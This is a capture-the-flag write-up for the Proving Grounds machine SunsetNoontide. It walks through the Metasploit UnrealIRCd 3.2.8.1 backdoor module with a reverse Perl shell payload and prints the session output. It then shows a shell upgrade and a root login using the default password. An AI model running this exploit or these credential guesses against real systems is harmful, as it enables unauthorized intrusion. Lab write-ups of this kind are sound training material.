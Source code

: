 # SunsetNoontide
**Date:** June 20th 2022

**Author:** j.info

**Link:** [**Proving Grounds**](https://portal.offensive-security.com/proving-grounds/play) on Offensive Security

**PG Difficulty Rating:** Easy

<br>

![](images/sunsetnoontide0.png)

<br>

## Objectives
- local.txt flag
- proof.txt flag

<br>

## Initial Enumeration

### Nmap Scan

`sudo nmap -sV -sC -T4 192.168.152.120`

```
PORT     STATE SERVICE VERSION
6667/tcp open  irc     UnrealIRCd
```

An additional all ports scan found:

```
PORT     STATE SERVICE VERSION
6697/tcp open  irc     UnrealIRCd
8067/tcp open  irc     UnrealIRCd
Service Info: Host: irc.foonet.com
```

<br>

## IRC Digging

I run a `searchsploit unrealirc` and find the following:

```
--------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                       |  Path
--------------------------------------------------------------------- ---------------------------------
UnrealIRCd 3.2.8.1 - Backdoor Command Execution (Metasploit)         | linux/remote/16922.rb
UnrealIRCd 3.2.8.1 - Local Configuration Stack Overflow              | windows/dos/18011.txt
UnrealIRCd 3.2.8.1 - Remote Downloader/Execute                       | linux/remote/13853.pl
UnrealIRCd 3.x - Remote Denial of Service                            | windows/dos/27407.pl
--------------------------------------------------------------------- ---------------------------------
```

I'll give the first one a shot and start up **Metasploit** with `msfconsole`.

`search unreal`

```
   #  Name                                        Disclosure Date  Rank       Check  Description
   -  ----                                        ---------------  ----       -----  -----------
   0  exploit/linux/games/ut2004_secure           2004-06-18       good       Yes    Unreal Tournament 2004 "secure" Overflow (Linux)
   1  exploit/windows/games/ut2004_secure         2004-06-18       good       Yes    Unreal Tournament 2004 "secure" Overflow (Win32)
   2  exploit/unix/irc/unreal_ircd_3281_backdoor  2010-06-12       excellent  No     UnrealIRCD 3.2.8.1 Backdoor Command Execution
```

I decide to give #2 a shot since it's rated as excellent.

`use 2`

`set RHOSTS 192.168.152.120`

`set PAYLOAD cmd/unix/reverse_perl`

`set LHOST 192.168.49.152`

`show options`

```
Module options (exploit/unix/irc/unreal_ircd_3281_backdoor):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS  192.168.152.120  yes       The target host(s), see https://github.com/rapid7/metasploit-fr
                                      amework/wiki/Using-Metasploit
   RPORT   6667             yes       The target port (TCP)


Payload options (cmd/unix/reverse_perl):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.49.152   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port
```

<br>

## System Access

With everything set I run the exploit and get a shell back:

`exploit`

```

[*] Started reverse TCP handler on 192.168.49.152:4444 
[*] 192.168.152.120:6667 - Connected to 192.168.152.120:6667...
    :irc.foonet.com NOTICE AUTH :*** Looking up your hostname...
[*] 192.168.152.120:6667 - Sending backdoor command...
[*] Command shell session 1 opened (192.168.49.152:4444 -> 192.168.152.120:41826) at 2022-06-20 10:28:45 -0400

id
uid=1000(server) gid=1000(server) groups=1000(server),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev),111(bluetooth)
hostname
noontide
```

`which python3`

`python3 -c 'import pty;pty.spawn("/bin/bash")'`

`export TERM=xterm-256color`

<br>

## System Enumeration

I take a look in the **/home** directory and the only user listed is **server**. Inside that directory we find our first flag **local.txt**:

`wc -c local.txt`

```
33 local.txt
```

Checking `sudo -l`:

```
bash: sudo: command not found
```

<br>

## Root

I was definitely NOT expecting this, but I tried to `su root` using **root** as the password and it worked...

```
server@noontide:~/irc/Unreal3.2$ su root
Password: 
root@noontide:/home/server/irc/Unreal3.2#
```

I guess default passwords are sometimes realistic in the real world but I figured there would have been something else to escalate privilieges here.

`wc -c /root/proof.txt`

```
33 /root/proof.txt
```

<br>

With that we've completed this CTF!

![](images/sunsetnoontide1.png)

<br>

## Conclusion

A quick run down of what we covered in this CTF:

- Finding an UnrealIRCd server running on the system that was vulnerable to RCE and using that for our initial foothold on the system
- Finding a very weak password on the root account and escalating our privileges that way

<br>

Many thanks to:
- [**Offensive Security**](https://www.offensive-security.com/) for hosting this CTF
